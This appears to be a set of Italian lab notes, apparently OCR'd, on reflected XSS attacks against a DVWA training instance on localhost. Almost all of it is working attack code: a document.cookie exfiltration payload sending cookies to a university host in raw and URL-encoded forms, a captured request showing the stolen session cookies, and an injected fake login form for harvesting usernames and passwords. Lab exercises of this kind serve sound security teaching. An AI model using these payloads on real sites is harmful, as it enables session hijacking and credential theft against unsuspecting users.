 



http://cris.unimore.it/fakeimg.jpg&stolen=security=low; security=low; PHPSESSID=b926kblllsk6s6uhu4jehtunn0; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada; JSESSIONID=A985F9EDEAA5599AB8BCC69DF829795D








	- scrittura dell'immagine nel documento
<script>evil_url="https://cris.unimore.it/fakeimg.jpg?stolen="; evil_url+=document.cookie; document.write("<img src=\""+evil_url+"\">"); </script>


http://localhost:8081/dvwa/vulnerabilities/xss_r/?name=%3Cscript%3Eevil_url%3D%22https%3A%2F%2Fcris.unimore.it%2Ffakeimg.jpg%3Fstolen%3D%22%3B%20evil_url%2B%3Ddocument.cookie%3B%20document.write(%22%3Cimg%20src%3D%5C%22%22%2Bevil_url%2B%22%5C%22%3E%22)%3B%20%3C%2Fscript%3E


http://localhost:8081/dvwa/vulnerabilities/xss_r/?name=<script>evil_url="https://cris.unimore.it/fakeimg.jpg?stolen="; evil_url+=document.cookie; document.write("<img src=\""+evil_url+"\">"); </script>









*************************
Furto di username e password
*************************








• creazione di un form







<form><br><br><HR><H3>This feature requires account login:</H3 ><br><br>Enter Username:<br><input type="text" id="user" name="user"><br>Enter Password:<br><input type="password" name = "pass"><br><input type="submit" name="login" value="login"></form>

• nascondiamo il form precedente






<form><br><br><HR><H3>This feature requires account login:</H3 ><br><br>Enter Username:<br><input type="text" id="user" name="user"><br>Enter Password:<br><input type="password" name = "pass"><br><input type="submit" name="login" value="login"></form>
<script>document.getElementsByName("XSS")[0].style.visibility="hidden";</script>

PRENDE l'elemento XSS e lo setta come hidden. Dovresti capire effettivamente qual è il nome dell'elemento sulla pagina. in questo caso, tu lo rendi solo non hidden.
